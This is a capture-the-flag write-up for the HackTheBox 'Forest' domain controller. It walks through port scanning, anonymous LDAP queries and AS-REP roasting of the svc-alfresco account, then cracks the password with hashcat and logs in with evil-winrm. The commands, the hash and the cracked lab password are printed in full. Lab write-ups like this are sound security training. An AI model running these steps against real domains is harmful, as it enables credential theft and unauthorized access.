

# Forest

## Overview

A domain controller created by _HackTheBox_ with Exchange server installed in a minimal AD domain.

The machine covers the following techniques:

* [AS-REP Roasting](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md)
* [DCSync attack](../../windows/credential-access/os-credential-dumping/credential\_dumping.md#dcsync-attack)
* Bloodhound

## Reconnaissance

### Port Scanning

We use `nmap` to figure out what services are running on the target.

```bash
$ nmap -Pn -n -sS -p- -T4 --min-rate 1000 <IP>
...
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49702/tcp open  unknown
50008/tcp open  unknown
64429/tcp open  unknown
...
```

The results reveal the following information.

* port 88 tells us that this should be a _domain controller_
* port 389 allows us to fetch information about target AD domain via LDAP
* port 5985 may allow us access the target using _WinRM_ later

### LDAP

It seems that we can fetch information about the target AD domain via [LDAP anonymous authentication](../../windows/ad/adds/ldap.md#anonymous-authentication).

By querying the RootDSE information, we see that the target domain name is `htb.local.`

```bash
$ ldapsearch -H ldap://<IP> -x -b '' -s base
```

## Initial Access

### Alfresco

From the information gathered through anonymous LDAP query, we found a _service account_ named `svc-alfresco`.

To expand our knowledge of the technology used by our client, the next thing to do is to find what third-party service, which shall be AD-integrated, related this account.

By Google, we found a product named [Alfresco Content Services](https://docs.alfresco.com/content-services/7.0).

From the configuration, we see that the account related to this service has been configured with _Kerberos pre-authentication_ disable.

<figure><figcaption><p><a href="https://docs.alfresco.com/process-services/latest/config/authenticate/#configuration-steps">Alfresco - Configuration Steps</a></p></figcaption></figure>

This allows us to get the TGT for this account `svc-alfresco`, and conduct the [_AS-REP Roasting_ attack](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md) to retrieve the account password from the requested TGT.

### AS-REP Roasting

We use the `Impacket-GetNPUsers` to get the TGT ticket for the account `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25dea275afcce8003c360ab40353f112$1c819f4f545ec54a5b988c5402709abffb17105fd2e5ab6a47b0321fd90307767aef2e00f6504fc2eaf643c4884614ca62b6d938a45b19c87893b0bca1d1dfc3e628c97462de1625b8d492f0ad25932d37bc84e095a6bddcb6230d53066fa0c165a77a150e2837cf257c898e71c2fbb16411e905718cf59262d1d15159537a0c49c31b7f64d89f128e20a2becb4f0e47fd0b4ca10440539ca6038e5d14da2a8be833e857bc868afff34011a9ae150c4b296866c8dbddd48f9208bc324208b251af8ff35f7a205666166c8208c59cff2de2d9994aa67fc4e7eb6aac4b0cd9b1ec02bced2feb3a
```

Refer to [AS-REP Roasting - Impacket](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md#impacket) for more information.

We can crack the hash using `hashcat` with mode 18200:

```bash
$ hashcat --example|grep -i 'as.*rep' -B2

MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
```

and get the password `s3rvice` for the account `svc-alfresco.`

<figure><figcaption></figcaption></figure>

### WinRM

We can now login to the target host with the credential we got via [WinRM](../../windows/execution/remote/winrm.md).

```bash
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```
